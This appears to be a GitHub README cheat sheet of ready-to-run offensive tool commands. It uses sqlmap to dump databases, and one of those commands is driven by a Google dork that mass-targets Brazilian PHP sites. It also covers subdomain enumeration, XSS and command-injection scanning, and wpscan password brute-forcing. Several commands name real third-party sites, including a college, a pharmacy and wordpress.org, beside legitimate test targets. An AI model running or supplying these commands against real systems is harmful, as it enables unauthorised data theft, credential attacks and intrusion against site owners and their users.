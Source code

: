 <h1 align="center">sqlmap</h1>

# parameter finding google dork

    site: .com.br inurl: .php?id=1

# finding vuln parameter using google dork
    sqlmap -g "site: .com.br inurl: .php?id=1" --dump-all --batch --threads 7 -o sqldumldataauto.txt
# auto crawling command

    sqlmap -u "http://testphp.vulnweb.com/" --crawl 3 --batch --threads 5 --random-agent --risk 1 --level 1 -o sqlcrawl.txt
    
# auto dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dump-all --batch --threads 7 -o sqldumldataauto.txt

# Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch --threads 5 -o sqldumpfulldatabase.txt
    
# Step by step dumping databases
    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch --threads 5 -o sqldumpfulltable.txt
    
# Step by step dumping databases
    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch --threads 5 -o sqlreadallcolumnsdata.txt
    
# Step by step dumping databases
    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname --dump --batch --threads 5 -o sqldumpfullcolumns.txt

## Login page brute-forcing

    sqlmap -u "http://testphp.vulnweb.com/login.php" --forms -o sqlbruteForcelogin.txt
    

    sqlmap -u "http://testphp.vulnweb.com/userinfo.php" --data="uname=abd&pass=abc&login=submit" --dbs

<h1 align="center">Sub Domain Enumeration</h1>

### Sub Domain finding using assetfinder+httpx
    assetfinder -subs-only faculdadeunica.com.br | httpx -random-agent -mc 200,302 -silent -server -tech-detect -status-code | tee path/validsubDomains.txt

<h1 align="center">CMS Detector</h1>

### auto Detecting
    cmseek -u https://wordpress.org --batch | tee 'path/cmsDetector.txt'

<h1 align="center">Gospider</h1>

### Paramiter finding
    gospider -s "https://www.farmasilva.com.br" --no-redirect -o gospider.txt

<h1 align="center">XSStrike, xss finder</h1>

### xss finding
    xsstrike -u "https://www.farmasilva.com.br/search?search_query=query" -f /usr/share/wordlists/SecLists/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

<h1 align="center">XSpear, xss finder</h1>

### xss finding
    XSpear -u 'http://testphp.vulnweb.com/listproducts.php?cat=123' -v 2 -o XSpear.txt

<h1 align="center">commix, xss finder</h1>

### os command injection finding
    commix -u 'http://192.168.31.177/vulnerabilities/exec/#' --cookie="security=low; PHPSESSID=hcjrgadiie5f40vup73ehe0fu7; security=low" --data="ip=INJECT_HERE&Submit=Submit"

<h1 align="center">wpscan</h1>

### Vulnerable plugin, themes, users
    wpscan --url https://wordpress.org -e vp,vt,u -o scanned.txt

### Vulnerable plugins, All plugins, Vulnerable themes, All themes, Timthumbs, Config backups, Db exports, User, Media, Bypassing Simple WAFs
    wpscan --url https://wordpress.org -e vp,vt,tt,cb,dbe,u,m --random-user-agent -v -o scanned.txt

### Password brute force attack
    wpscan --url https://wordpress.org -e u --passwords /usr/share/wordlists/rockyou.txt -o scanned.txt
